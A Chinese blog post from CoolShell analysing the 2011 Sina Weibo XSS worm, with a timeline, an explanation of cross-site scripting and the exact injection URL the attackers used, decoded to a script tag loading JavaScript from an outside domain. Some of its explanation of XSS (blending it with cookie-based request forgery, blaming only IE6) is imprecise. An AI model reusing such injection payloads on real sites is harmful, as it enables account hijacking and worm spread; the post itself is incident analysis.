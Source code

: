 新浪微博的XSS攻击
作者：陈皓，左耳朵耗子
来自：酷壳网 CoolShell https://coolshell.cn

今天晚上（2011年6月28日），新浪微博出现了一次比较大的XSS攻击事件。大量用户自动发送诸如：“郭美美事件的一些未注意到的细节”，“建党大业中穿帮的地方”，“让女人心动的100句诗歌”，“3D肉团团高清普通话版种子”，“这是传说中的神仙眷侣啊”，“惊爆!范冰冰艳照真流出了”等等微博和私信，并自动关注一位名为hellosamy的用户。
事件的经过线索如下：
20:14，开始有大量带V的认证用户中招转发蠕虫 20:30，2kt.cn中的病毒页面无法访问 20:32，新浪微博中hellosamy用户无法访问 21:02，新浪漏洞修补完毕
在这里，想和大家介绍一下XSS攻击，XSS攻击又叫跨站脚本式攻击，你Google一下可以搜到很多很多的文章。我在这里就简单地说一下。
首先，我们都知道网上很多网站都可以“记住你的用户名和密码”或是“自动登录”，其实是在你的本地设置了一个cookie，这种方式可以让你免去每次都输入用户名和口令的痛苦，但是也带来很大的问题。试想，如果某用户在“自动登录”的状态下，如果你运行了一个程序，这个程序访问“自动登录”这个网站上一些链接、提交一些表单，那么，也就意味着这些程序不需要输入用户名和口令的手动交互就可以和服务器上的程序通话。这就是XSS攻击的最基本思路。
再说一点，不一定是“记住你的用户名和密码”或是“自动登录”的方法，因为HTTP是无状态的协议，所以，几乎所有的网站都会在你的浏览器上设置cookie来记录状态，以便在其多个网页切换中检查你的登录状态。而现在的浏览器的运行方式是多页面或多窗口运行，也就是说，你在同一个父进程下开的多个页面或窗口里都可以无偿和共享使用你登录状态的。
当然，你不必过于担心访问别的网站，在别的网站里的js代码会自动访问你的微博或是网银。因为浏览器的安全性让js只能访问自己所在网站的资源（你可以引入其它网站的js）。当然，这是浏览器对js做的检查，所以，浏览器并不一定会做这个检查，这就是为什么IE6是史上最不安全的浏览器，没有之一。只要你没有在用IE6，应该没有这些问题。
XSS攻击有两种方法，
一种就像SQL Injection或CMD Injection攻击一样，我把一段脚本注入到服务器上，用户访问方法服务器的某个URL，这个URL就会把远端的js注入进来，这个js有可能自动进行很多操作。比如这次事件中的帮你发微博，帮你发站内消息等。注入有很多方法，比如：提交表单，更改URL参数，上传图片，设置签名，等等。
另一类则是来来自外部的攻击，主要指的自己构造XSS 跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如 社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低，至少ajax 要发起跨站调用是非常困难的（你可能需要hack浏览器）。
这次新浪微博事件是第一种，其利用了微博广场页面 http://weibo.com/pub/star 的一个URL注入了js脚本，其通过 http://163.fm/PxZHoxn 短链接服务，将链接指向：
http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update
注意，上面URL链接中的其实就是<script src=//www.2kt.cn/images/t.js></script>。
攻击者并不一定是2kt.cn的人，因为.cn被国家严格管制（大家不知道coolshell.cn 的备案备了不知有多少次），所以，我个人觉得这个人不会愚蠢到用自己域名来做攻击服务器。
其它
初步发现 Chrome 和 Safari 都没中招。IE、Firefox未能幸免。 史上最著名的XSS攻击是Yahoo Mail 的Yamanner 蠕虫是一个著名的XSS 攻击实例。早期Yahoo Mail 系统可以执行到信件内的javascript 代码。并且Yahoo Mail 系统使用了Ajax技术，这样病毒javascript 可以的向Yahoo Mail 系统发起ajax 请求，从而得到用户的地址簿，并发送攻击代码给他人。 为什么那个用户叫hellosamy，因为samy是第一个XSS攻击性的蠕虫病毒，在MySpace上传播。 关于攻击的代码在这里：06.28_sina_XSS.txt （编码风格还是很不错的）